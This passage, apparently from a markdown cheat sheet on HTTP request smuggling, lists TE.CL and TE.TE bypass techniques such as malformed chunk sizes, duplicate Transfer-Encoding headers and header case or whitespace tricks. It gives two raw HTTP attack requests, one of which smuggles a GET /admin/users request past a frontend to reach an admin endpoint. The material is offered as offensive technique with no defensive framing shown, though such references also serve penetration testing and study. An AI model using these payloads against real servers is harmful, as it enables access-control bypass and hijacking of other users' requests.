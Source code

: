 
### 2. TE.CL Bypass Techniques
- **Invalid Chunk Size**: Use invalid chunk sizes
- **Negative Chunk Size**: Use negative chunk sizes
- **Oversized Chunks**: Use oversized chunk sizes
- **Malformed Chunk Headers**: Send malformed chunk headers

---

## TE.TE Vulnerabilities

### 1. Transfer-Encoding vs Transfer-Encoding
**Frontend**: Uses Transfer-Encoding (TE)
**Backend**: Uses Transfer-Encoding (TE) but with different parsing

#### Basic TE.TE Attack
```http
POST / HTTP/1.1
Host: target.com
Transfer-Encoding: chunked
Transfer-Encoding: identity

0

SMUGGLED
```

#### Advanced TE.TE Attack
```http
POST /admin HTTP/1.1
Host: target.com
Transfer-Encoding: chunked
Transfer-Encoding: gzip

0

GET /admin/users HTTP/1.1
Host: target.com
Content-Length: 0

```

### 2. TE.TE Bypass Techniques
- **Duplicate Headers**: Use duplicate Transfer-Encoding headers
- **Invalid Encodings**: Use invalid encoding values
- **Case Sensitivity**: Exploit case sensitivity differences
- **Whitespace**: Use whitespace in headers

---

## Advanced Smuggling Techniques
